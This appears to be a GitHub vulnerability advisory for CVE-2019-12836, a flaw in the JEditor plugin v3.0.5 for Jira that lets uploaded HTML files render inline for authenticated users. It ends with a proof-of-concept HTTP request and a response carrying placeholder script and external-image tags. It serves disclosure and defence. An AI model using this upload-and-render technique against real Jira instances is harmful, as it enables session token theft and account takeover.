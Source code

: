 # CVE-2019-12836

![bobronix](https://github.com/9lyph/CVE-2019-12836/assets/44860700/a3f87ea7-b1bb-44ca-8f95-b2bbcf10dc59)

#### Application

JEditor v3.0.5 - WYSIWIG Editor for JIRA

Simple yet powerful rich text editor for Jira. Import HTML emails, paste rich contents, create templates and prepopulate fields.

#### Vendor of Product

Bobronix

#### Vendor Website

http://bobronix.com/

#### CVE Reference

[https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-12836](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-12836)

#### Affected Product Code Base

JEditor - WYSIWYG Editor for Jira - v3.0.5

#### Affected Component

JEditor v3.0.5

#### Description

The Bobronix JEditor editor before v3.0.6 for Jira allows an attacker to add a URL/Link (to an existing issue) that can cause forgery of a request to an out-of-origin domain.  This in turn may allow for a forged request that can be invoked in the context of an authenticated user, leading to stealing of session tokens and account takeover.

JEditor v3.0.5 allows for upload of files of various file extension types, one of which is '.HTML'. JEditor is utilised by JIRA for its file upload functionality. Using this functionality an attacker is able to upload malicious content.

Once the malicious content is uploaded a subsequent request can be made for the content which allows for the inline displaying and rendering of the content within the context of any authenticated user's browser. This may allow for an attacker to forge a  malicious request, on behalf of any authenticated user. 

#### Vulnerability Type

Cross Site Request Forgery (CSRF)

#### Additional Information

Bug Fixed in JEditor v3.0.6

https://jeditor.zendesk.com/hc/en-us/articles/360029430751-JEditor-3-0-6-release-notes

#### CVE Impact Other

Allows for a forged request resulting in a client side attack vector possibility

#### Attack Vectors

Authenticated user required to interact with the embedded link/URL

#### Discoverer

Credit: Victor Hanna (Exploit Security)

#### POC

##### Example HTTP Request

```
GET /plugins/servlet/jeditor_file_provider?imgId=ckupload201906162566696393384747423&fileName=C%3A%5Ctemp%5CPOC.html HTTP/1.1
Host: <vulnerable host>
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:66.0) Gecko/20100101 Firefox/66.0)
Accept: text/html,application/xhtml_xml,application/xml;q=0.9,*/*;q=0.8
Accept-Langauge: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://<vulnerable host>/secure/Dashboard.jspa
DNT: 1
Connection: close
Cookie: atlassian.xsrf.token=BNXD-VY4I-RCJA-J3YA_34d13dd7fae0f32023fc89838ldc0b6c35991382_lin; JSESSION=42E9F5581BAE499E3E9E45B9D44E6F3C
Upgrade-Insecure-Requests: 1
```

##### Example HTTP Response

```
HTTP/1.1 200
Server: nginx/1.10.2
Date: Sun, 16 Jun 2019 03:06:10 GMT
Content-Type: text/html;charset=UTF-8
Connection: close
X-AREQUESTID: 786x226666x1
X-ASESSIONID: pn6xpm
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
X-ASEN: SEN-2322842
X-Seraph-LoginReason: OK
X-AUSERNAME:
Content-Disposition: inline; filename="C:\temp\POC.html"
Vary: User-Agent
Content-Length: 236

<html>
<head>
<img src="http://{insert external image location here}">
<script>{JS Payload of any description}</script>
</head>
<body>
<h1>
 Welcome to the Jungle !
</h1>
</body>
</html>
```

#### Discoverer/Credit
Victor Hanna of Exploit Security

#### Follow me on
<a rel="me" href="https://defcon.social/@9lyph">Mastodon</a> [Linkedin](https://www.linkedin.com/in/victor-h-a894a84/) [Youtube](https://www.youtube.com/channel/UC79Q2b0tHeqsjjvEH0k7jZw)
